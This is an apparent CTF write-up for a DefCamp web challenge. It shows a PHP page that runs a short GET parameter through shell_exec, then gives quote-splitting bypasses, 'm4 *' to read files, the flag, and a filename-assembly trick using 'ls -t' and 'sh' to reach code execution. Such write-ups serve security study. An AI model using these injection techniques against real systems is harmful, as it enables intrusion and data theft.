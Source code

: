 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass black-listed
**Search**: 
php tricks hacktricks: https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp

bypass bash restrictiosn: https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions

**Bypassed
```
'l's # flag.php, index.php
l''s # still good
p\s # processes
```

## Bypass using short command of cat
```bash
# using m4(same as cat)
m4 *
```

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`

## Extended to RCE

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_ # sort by time, in real senario, we have to write a file for this task, just like below

sh _
# hello
```

`_` file:
```bash
cat _
#_            error command/not command raise error but still being ignored and keep running!!
#cat\
# \
#ind\
#ex.\
#php
#index.php
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
